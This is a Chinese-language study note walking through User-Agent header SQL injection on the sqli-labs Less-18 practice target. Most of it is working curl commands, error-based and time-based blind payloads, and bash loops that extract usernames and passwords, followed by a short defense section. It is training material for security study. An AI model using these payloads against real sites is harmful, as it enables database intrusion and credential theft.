

# 02-UA 注入

> 所属知识库：[[SQL总目录|SQL 总目录]] / mysql 结构系列
>
> 上级章节衔接：[[../01-整数型注入|整数型注入]] 是 GET 参数位置的标准五步，本章把输入源搬到 **User-Agent 头**；报错骨架详解见 [[../03-报错注入|报错注入]]
>
> sqli-labs 对照：less-18（User-Agent Injection，登录成功后触发）
>
> 配套工具：`~/hackingtools/web/injection/sqlinject`（工具库位于仓库外 `/home/a/hackingtools`）

## 一、原理：登录成功后的 insert 日志表

less-18 的特殊之处：**登录失败时什么也不发生，登录成功后服务端把 User-Agent 写入日志表**。漏洞代码原型：

```php
// 先用 POST 的账号密码验证登录
$uname = $_POST['uname'];
$passwd = $_POST['passwd'];
$sql = "SELECT * FROM users WHERE username='$uname' AND password='$passwd'";
// ... 验证通过后:

// 把请求头原样插入日志表 —— 漏洞在这里
$uagent = $_SERVER['HTTP_USER_AGENT'];
$IP = $_SERVER['REMOTE_ADDR'];
$insert = "INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`)
           VALUES ('$uagent', '$IP', '$uname')";
mysql_query($insert);
```

正常请求 `User-Agent: Mozilla/5.0` 执行：

```sql
INSERT INTO uagents VALUES ('Mozilla/5.0', '127.0.0.1', 'Dhakkan')
```

两个关键推论：

1. **UA 头完全客户端可控**，curl `-A` 一个参数即可改写
2. **必须先有一个有效账号密码**，否则走不到 insert 分支——靶场用默认账号 `Dhakkan/dumb` 登录

### 为什么这类漏洞容易被忽略

| 认知误区 | 实情 |
|---------|------|
| "只有参数才是输入" | HTTP 头的每个字段都是输入源，`$_SERVER['HTTP_*']` 全部不可信 |
| "日志表写入无害" | 日志表也是表，注入后同样可以跨表读数据 |
| "登录后才触发所以测不到" | 用任意注册账号或默认弱口令登录即可触发 |
| "WAF 会扫 UA" | WAF 通常只对参数做深度检测，头字段检查宽松得多 |

### 数据流向图



## 二、触发条件与 insert 闭合

### 触发条件确认：无效凭证 vs 有效凭证对比

动手注入前先验证自己理解了触发逻辑——这一步是 header 注入区别于普通注入点的关键：

```bash
URL="http://127.0.0.1/sqli-labs/Less-18/"

# 无效凭证 + 恶意 UA → 走不到 insert，页面只显示登录失败，无报错
curl -s "$URL" -d "uname=wrong&passwd=wrong" \
     -A "' and updatexml(1,concat(0x7e,database()),1) or '" | grep -i error

# 有效凭证 + 恶意 UA → 进入 insert 分支，XPATH 报错出现
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -A "' and updatexml(1,concat(0x7e,database()),1) or '"
# 输出: XPATH syntax error: '~security'
```

两次响应的差异证明：**注入点在登录之后的 insert 里，凭证是触发钥匙**。

### insert 闭合技巧

insert 的语法位置和 select 不同，不能直接 `' and 1=1#`——那样会破坏 insert 语法导致整条报错（虽然报错本身也能利用）。标准闭合思路：

目标 SQL：

```sql
INSERT INTO uagents (uagent, ip_address, username) VALUES ('UA值', '127.0.0.1', 'admin')
```

payload 要在**字符串值内部闭合引号、插入子查询、再补齐剩余括号结构**：

```
' and extractvalue(1,concat(0x7e,database())) and '
```

拼进 SQL 后变成：

```sql
INSERT INTO uagents VALUES ('' and extractvalue(1,concat(0x7e,database())) and '', '127.0.0.1', 'admin')
```

另一种更常用的写法是 or 版本，或者干脆截断后半段括号：

```
' or updatexml(1,concat(0x7e,database()),1) or '
' or updatexml(1,concat(0x7e,database()),1), '', '')#
```

三种写法拼接形态对比：

| payload | 拼接结果 | 特点 |
|---------|---------|------|
| `' and extractvalue(...) and '` | `VALUES ('' and extractvalue(...) and '', ...)` | 保持原语句结构，最稳 |
| `' or updatexml(...) or '` | `VALUES ('' or updatexml(...) or '', ...)` | or 让子查询必然求值 |
| `' or updatexml(...), '', '')#` | `VALUES ('' or updatexml(...), '', '')#` | 补齐列数后注释，适合多列 insert |

选择原则：**先探测 insert 的列数**（`', '', '')` 逐个试），再决定用补全式还是截断式。

## 三、为什么 insert 场景常用报错注入而非 union

| 对比项 | union | 报错注入 |
|--------|-------|---------|
| 语法要求 | 前后列数一致 | 无此要求 |
| 结果回显 | 需要 select 结果被输出到页面 | 只要错误信息回显即可 |
| insert 场景 | insert 后没有结果集返回给页面，union 无处安放 | mysql_query 的报错文本会打印出来 |

insert 语句**本身不产生回显结果集**——即使 union 成功执行，页面也不会显示数据；而报错注入把数据塞进错误信息，错误信息恰好会被 echo。所以 less-18 这类 header + insert 场景的标准解法就是 updatexml / extractvalue。

但五步方法论不变：**确认 → 探测 → 爆库 → 爆表 → 提数据**，只是每一步的载体从 union 换成报错函数。

## 四、curl 五步实操（less-18）

约定：`URL="http://127.0.0.1/sqli-labs/Less-18/"`，所有请求都带 `-d "uname=Dhakkan&passwd=dumb"` 维持登录成功状态，payload 全部放 `-A`。

### 第一步：确认注入点存在

```bash
# 单引号试探 —— insert 语法被破坏，看是否回显 MySQL 报错
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" -A "'"

# 补全式真假确认 —— 报错函数只在表达式为真路径上求值
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -A "' or updatexml(1,concat(0x7e,database()),1) or '"
# XPATH syntax error: '~security' → 注入成立，单引号闭合
```

对照实验：把 `-d` 换成无效凭证重发同一 payload，无任何报错——再次印证触发条件。

### 第二步：探测结构

union 不可用，此步目标改为确认报错通道与 insert 列数：

```bash
# 截断式试探列数: 3 列版本正常触发
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -A "' or updatexml(1,concat(0x7e,database()),1), '', ')#"
```

同时用 version()/user() 验证报错长度上限（约 32 字符），为后面分段做准备：

```bash
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -A "' or updatexml(1,concat(0x7e,version(),0x7e,user()),1) or '"
```

### 第三步：爆当前数据库

```bash
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -A "' or updatexml(1,concat(0x7e,database()),1) or '"
# XPATH syntax error: '~security'
```

### 第四步：information_schema 爆表

```bash
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -A "' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1) or '"
# ~emails,referers,uagents,users
```

group_concat 结果超长时改 limit 逐个翻：

```bash
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -A "' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 3,1)),1) or '"
# ~users
```

### 第五步：爆列并提取数据

```bash
# 爆列
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -A "' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users')),1) or '"

# 提取数据（先取第一段 30 字符）
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -A "' or updatexml(1,concat(0x7e,substr((select group_concat(username,0x3a,password) from users),1,30)),1) or '"
```

### substr 分段绕 32 字节截断的 bash 循环

updatexml 回显窗口只有约 32 字符，长结果必须分段。手工翻页太慢，一个循环跑完全量：

```bash
#!/bin/bash
URL="http://127.0.0.1/sqli-labs/Less-18/"
DATA="uname=Dhakkan&passwd=dumb"
SUB="select group_concat(username,0x3a,password) from users"

for ((off=1; off<=120; off+=25)); do
  echo "== offset $off"
  curl -s "$URL" -d "$DATA" \
    -A "' or updatexml(1,concat(0x7e,substr(($SUB),$off,25)),1) or '" \
    | grep -o "~[^']*" | head -1
done
```

输出示例：

```
== offset 1
~Dumb:Dumb, Angelina:I-kill-y
== offset 26
~ou, Dummy:secure, stupid:stu
...
```

循环终止条件按数据总长调整；也可以先用 `length()` 探测总长再精确控制轮数：

```bash
# 先探总长，决定分段轮数
curl -s "$URL" -d "$DATA" \
     -A "' or updatexml(1,concat(0x7e,(select length(group_concat(username,0x3a,password)) from users)),1) or '"
# ~152 → 循环上界取 150 即可
```

### 报错 payload 速查（UA 位置通用）

```sql
' or updatexml(1,concat(0x7e,database()),1) or '                       -- 当前库
' or updatexml(1,concat(0x7e,version()),1) or '                        -- 版本
' or updatexml(1,concat(0x7e,user(),0x7e,database()),1) or '           -- 用户+库
' or extractvalue(1,concat(0x7e,database(),0x7e)) or '                 -- extractvalue 版
' or updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1)),1) or '  -- 所有库逐个翻
```

### Burp 对照流程

curl 跑通后用 Burp 复现留痕：

1. 拦截登录请求，Send to Repeater
2. 在 Repeater 中改 User-Agent 头为各步 payload，`-d` 内容保持不变
3. 响应区确认 XPATH 报错逐步输出库表列数据

两套手段步骤一一对应：curl 的 `-A` 对应 Repeater 的 User-Agent 行，`-d` 对应 Body。

### 与 Cookie 注入的对照

| 对比项 | Cookie 注入（上一章） | UA 注入（本章） |
|--------|---------------------|----------------|
| curl 参数 | `-b "uname=payload"` | `-A "payload" -d "凭证"` |
| 触发时机 | 打开页面即查询 | 登录成功后的 insert |
| 语句类型 | select（可 union） | insert（只能报错/盲注） |
| 是否需要凭证 | less-20 不需要 | 必须有效凭证 |
| 五步载体 | union 回显位 | updatexml 报错文本 |

## 五、UA 盲注变体

若页面不打印 MySQL 报错但能区分正常/异常响应（或可测延迟），同样可以打盲注：

```sql
-- 时间盲注
' and if(substr(database(),1,1)='s',sleep(5),0) and '

-- 布尔判断（配合 insert 是否成功产生的差异）
' or if(ascii(substr(database(),1,1))=115,sleep(5),0) or '
```

时间盲注的 curl 度量方式：

```bash
curl -s -o /dev/null -w "%{time_total}\n" "$URL" \
     -d "uname=Dhakkan&passwd=dumb" \
     -A "' or if(substr(database(),1,1)='s',sleep(5),0) or '"
# 输出 > 5 秒即条件为真
```

布尔差异的判断依据：insert 成功时页面显示 Your User Agent 文案，insert 失败（语法被破坏）时不显示——用这个可见差异代替数据回显：

```bash
# 真条件: 页面有 UA 回显
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -A "' or (ascii(substr(database(),1,1))=115 and (select 1)) or '"
# 假条件: 无回显
curl -s "$URL" -d "uname=Dhakkan&passwd=dumb" \
     -A "' or (ascii(substr(database(),1,1))=116 and (select 1)) or '"
```

逐位猜解脚本骨架：

```bash
for pos in $(seq 1 8); do
  for ascii in $(seq 32 126); do
    T=$(curl -s -o /dev/null -w "%{time_total}" "$URL" \
      -d "uname=Dhakkan&passwd=dumb" \
      -A "' or if(ascii(substr(database(),$pos,1))=$ascii,sleep(3),0) or '")
    awk "BEGIN{exit !($T > 3)}" && echo "pos=$pos char=$(printf \\$(printf '%03o' $ascii))" && break
  done
done
```

## 六、例题思路表

| 题目特征 | 判断 | 主打打法 |
|---------|------|---------|
| 页面提示 Your User Agent / 登录后才显示 UA | UA 落库且回显 | 报错五步（less-18） |
| 改 UA 无反应但登录失败页不同 | 未过登录门槛 | 先拿有效凭证再注入 |
| 有报错回显但内容被截断 | 32 字符窗口 | substr 分段循环 |
| 无报错但有延迟差异 | 时间盲注通道 | sleep + 二分猜解 |
| UA 与 Referer 都落库 | 同构双注入点 | 成组测试批量收获 |

解题时先问自己三个问题：输入从哪个头来、到达哪条 SQL、语句是 select 还是 insert。第三问决定 union 是否可用，也就决定了五步链的载体形态。

## 七、坑位速查

| 坑 | 说明 |
|----|------|
| 忘记带有效凭证 | 未登录走不到 insert 分支，怎么改 UA 都无反应，这是本关第一大坑 |
| `-A` 后忘写 `-d` | curl 只发 GET 请求，登录验证都过不了 |
| 直接 `' and 1=1#` | 破坏 insert 语法，虽然报错但难以稳定提数据，应使用 or 补全式 |
| 报错只显示前 32 字符 | group_concat 大结果必须 substr 分段或 limit 翻页 |
| shell 引号嵌套出错 | payload 含单引号，外层务必用双引号包裹 `-A` 的值 |
| UA 中含空格未加引号 | shell 会把 payload 拆成多个参数，命令静默变错 |
| 把五步里的 union payload 直接搬过来 | insert 场景 union 无回显位，必须换报错载体 |
| 只测首页路径 | header 日志常挂在登录等特定动作后，要在对应业务路径上测 |

## 八、自动化：sqlinject.py 工具

header 类注入已内置触发条件处理，`-d` 提供登录凭证、`--ua-point` 标记注入位置在 User-Agent：

```bash
cd ~/hackingtools/web/injection

# less-18 全流程：自动完成 确认 → 结构探测 → 爆库 → 爆表爆列 → 分段提数
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-18/" \
               -d "uname=Dhakkan&passwd=dumb" --ua-point

# 自定义单发 payload 快速验证闭合
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-18/" \
               -d "uname=Dhakkan&passwd=dumb" --ua-point \
               --custom "' or updatexml(1,concat(0x7e,database()),1) or '"
```

参数细节与更多示例见 `~/hackingtools/web/injection/sqlinject`（工具库位于仓库外 `/home/a/hackingtools`）。

## 九、防御

| 措施 | 说明 |
|------|------|
| 参数化查询 | insert 日志同样用 prepared statement，UA/IP 作为绑定参数 |
| 日志脱敏入库 | 记日志前对 UA 做长度限制与白名单校验（UA 本就无需精确原文） |
| 关闭详细报错 | `display_errors=Off`、自定义 error handler |
| 最小权限 | 日志表账号无读业务表权限，即使注入也拿不到 users |
| 不要拼接任何 \$_SERVER 值 | REMOTE_ADDR 相对可信，但 HTTP_* 系列全部不可信 |
| 日志旁路化 | 访问统计交给 nginx/ELK，不写数据库则注入面归零 |

```php
// 防御正例: 日志写入也参数化
$stmt = $pdo->prepare("INSERT INTO uagents(uagent, ip_address, username) VALUES(?, ?, ?)");
$stmt->execute([$uagent, $ip, $uname]);
```

---

**返回** [[SQL总目录|SQL 总目录]] · [[mysql结构总目录|mysql结构 总目录]] · 工具 `~/hackingtools/web/injection/sqlinject`（工具库位于仓库外 `/home/a/hackingtools`） · 相关 [[../01-整数型注入|整数型注入]] [[../03-报错注入|报错注入]]
